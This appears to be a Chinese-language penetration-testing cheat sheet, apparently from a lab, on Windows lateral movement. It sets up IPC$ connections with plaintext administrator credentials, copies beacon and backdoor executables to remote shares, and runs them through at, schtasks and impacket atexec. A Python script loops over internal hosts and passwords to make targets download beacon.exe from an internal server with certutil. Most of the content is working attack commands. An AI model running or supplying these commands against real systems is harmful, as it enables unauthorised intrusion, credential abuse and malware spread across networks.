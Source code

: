#### IPC$

##### at和schtasks

~~~shell
1. at < windows2012
net use \\192.168.52.138\ipc$ "A@2019gaokaowar" /user:god.org\administrator #建立ipc连接
copy 4444.exe \\192.168.52.138\c$  #拷贝可执行文件到目录
at \\192.168.52.138 19:45 c:\4444.exe  # 添加计划任务
connect 192.168.52.138 4444

1. schtasks > windows2012
net use \\192.168.3.21\ipc$ "Admin12345" /user/god.org\administrator #建立ipc连接
copy beacon.exe \\192.168.3.21 c:\beancon.exe #拷贝可执行文件到目录

schtasks /create /s 192.168.52.138 /ru "SYSTEM" /tn adduser /sc DAILY /tr c:\4444.exe /F #创beacon任务对应执行文件
schtasks /run /s 192.168.52.138 /tn adduser /i #运行adduser任务
schtasks /delete /s 192.168.52.138 /tn adduser /f#删除adduser任务

connect 192.168.3.32 #连接192.168.3.32
~~~

##### impacket + sock5隧道

~~~shell
上传atexec.exe执行
atexec.exe god/administrator:A@2019gaokaowar@192.168.52.138 "whoami"

atexec.exe -hashes :xxxxxxxxxxxxxx god/administrator@192.168.52.138 "whoami"
~~~

或者直接自己开sock5隧道，然后直接用自己的xxx.py套件就可以了

~~~python
import os,time
ips={
    '192.168.3.21',
    '192.168.3.25',
    '192.168.3.29',
    '192.168.3.30',
    '192.168.3.32'
}

users={
    'Administrator',
}
passs={
    'admin!@#45'
}


def xz():#下载后门
    for ip in ips:
        for user in users:
            for mima in passs:
                exec1='D:\Myproject\\venv\Scripts\python.exe D:\Myproject\impacket-master\examples\\atexec.py ./administrator:'+mima+'@'+ip+' "certutil -urlcache -split -f http://192.168.3.31/beacon.exe c:/beacon.exe"'
                exec2='D:\Myproject\\venv\Scripts\python.exe D:\Myproject\impacket-master\examples\\atexec.py god/'+user+':'+mima+'@'+ip+' "certutil -urlcache -split -f http://192.168.3.31/beacon.exe c:/beacon.exe"'
                #exec3='atexec.exe ./administrator:admin!@#45@192.168.3.32 "certutil -urlcache -split -f http://192.168.3.31/beacon.exe c:/beacon.exe"'
                print('--->'+exec1+'<---')
                print('--->' + exec2 + '<---')
~~~
